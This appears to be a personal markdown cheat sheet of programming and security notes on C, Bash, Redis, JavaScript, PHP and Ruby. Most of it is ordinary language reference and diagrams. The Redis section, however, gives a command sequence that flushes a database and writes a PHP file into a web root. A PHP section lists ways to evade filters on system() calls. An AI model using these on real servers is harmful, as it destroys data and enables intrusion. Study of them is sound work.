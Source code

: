 # Programming
<!-- toc -->

## C
- .init / .fini

  ```C
  #include <stdio.h>
  __attribute__((constructor(101))) void func1() {
  }

  __attribute__((constructor(102))) void func2() {
  }

  __attribute__((constructor)) void func3() {
  }

  __attribute__((destructor)) void func4() { // Run after main function.
  }

  int main() {
    return 0;
  }
  ```

## Shell
- [Shell Parameter Expansion](https://www.gnu.org/software/bash/manual/html_node/Shell-Parameter-Expansion.html#Shell-Parameter-Expansion)

  | Parameter Expansion   | x="a1 b1 c2 d2" |
  |:----------------------|:----------------|
  | `${x#*1}`             | &nbsp; b1 c2 d2 |
  | `${x##*1}`            | &nbsp; c2 d2    |
  | `${x%1*}`             | a1 b            |
  | `${x%%1*}`            | a               |
  | `${x/1/3}`            | a3 b1 c2 d2     |
  | `${x//1/3}`           | a3 b3 c2 d2     |
  | `${x//?1/z3}`         | z3 z3 c2 d2     |
  | `${x:0:2}`            | a1              |

- Command
  - printf

    ```bash
    printf '%s.' a b c
    ------------------
    a.b.c.
    ```

## Redis
- Write file

  ```
  FLUSHALL
  SET payload "<?php phpinfo() ?>"
  CONFIG SET DIR /var/www/html/
  CONFIG SET DBFILENAME shell.php
  SAVE
  ```

- [RCE](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

## JavaScript
- Reference
  - [wtfjs](https://github.com/denysdovhan/wtfjs)
  - [JavaScript Truth Table](https://thomas-yang.me/projects/oh-my-dear-js/)
  - [你懂 JavaScript 嗎？#8 強制轉型（Coercion）](https://ithelp.ithome.com.tw/articles/10201512)
- Weak Type (comparison `==`)
  - [] == 0
  - [] == "0"
  - ['a', ['b', 'c']] == "a,b,c"
  - "b" + "a" + + "a" + "a" == baNaNa
- Prototype Chain
  ```
  __proto__ 
  ─────────>
                                      
         ┌─────────────────────────────┐ ┌───────────────────────────────────────────────────┐
         │                             │ │                                                   │
         │                             │ │                                                   │
         │                             │ │                   ┌──────┐                        │
         │                             │ │                   │ null │                        │
         │                             │ │                   └──────┘                        │
         │                             │ │                      ↑                            │
         │                             ↓ ↓                      │                            │
  ┌────────────┐    prototype┌────────────────────┐    ┌──────────────────┐  constructor┌──────────┐
  │ Function() │─────────────│ Function.prototype │───>│ Object.prototype │─────────────│ Object() │
  └────────────┘constructor  └────────────────────┘    └──────────────────┘prototype    └──────────┘
                                        ↑                       ↑          
                                        │                       │
                                     ┌─────┐    prototype┌─────────────┐
                                     │ A() │─────────────│ A.prototype │
                                     └─────┘constructor  └─────────────┘
                                                                ↑          
                                                                │
                                                           ┌─────────┐
                                                           │ new A() │
                                                           └─────────┘
  ```

## PHP
- Reference
  - [php.net](https://www.php.net/)
- Weak Type (comparison `==`)
  - [PHP Truth Table](https://www.php.net/manual/en/types.comparisons.php)
  - [String to Number Comparison](https://www.php.net/manual/en/migration80.incompatible.php#migration80.incompatible.core.string-number-comparision)
  - `0eXXXX == 0eYYYY`
  - PHP Array
    - $arr[idx] <-> $arr{idx}
    - strcmp([], []) -> NULL
    - md5([]) -> NULL
    - sha1([ ]) -> NULL
    - strlen([ ]) -> NULL
    - file\_put\_contents("info.php", ["<?php ", "phpinfo();"]);
- Keyword Bypass
  - Case Insensitive
    - `<?php SySTeM("ls -al"); ?>`
  - Variable Function
    - `$func="system"; $func("ls -al");`
  - system(id) -> system("id")
  - echo \`id\` -> system("id")
- [Tags](https://www.php.net/manual/en/language.basic-syntax.phptags.php)
  - normal tag

    ```
    <?php echo 'test' ?>
    ```

  - short tag
    > can be disabled via the `short_open_tag` in `php.ini`, or are disabled
    > by default if PHP is built with the `--disable-short-tags` configuration

    ```php
    <? echo 'test' ?>
    ```

  - short echo tag

    ```php
    <?= 'test' ?>
    ```

## Python
- Reference
  - [wtfpython](https://github.com/satwikkansal/wtfpython) 

## Ruby
- Object Model
  ```
  superclass
  ──────────>

      ┌──────────────────────────────────────────────────────────┐
      │                                                          │
      │                       ┌─────┐                            │
      │                       │ nil │                            │
      │                       └─────┘                            │
      │                          ↑                               │
      │                          │                               │
      │                   ┌─────────────┐  singleton_class┌──────────────┐ 
      │                   │ BasicObject │─────────────────│ #BasicObject │
      │                   └─────────────┘                 └──────────────┘
      │                          ↑                               ↑
      ↓                          │                               │
  ┌───────┐    ┌────────┐    ┌────────┐      singleton_class┌─────────┐
  │ Class │───>│ Module │───>│ Object │─────────────────────│ #Object │
  └───────┘    └────────┘    └────────┘                     └─────────┘
                                 ↑                               ↑ 
                                 │                               │
                          class┌───┐            singleton_class┌────┐
          ┌────────────────────│ A │───────────────────────────│ #A │
          │                    └───┘                           └────┘
          │                      ↑  
          │                      │  
        ┌───┐   singleton_class┌────┐
        │ a │──────────────────│ #a │
        └───┘                  └────┘

  ```
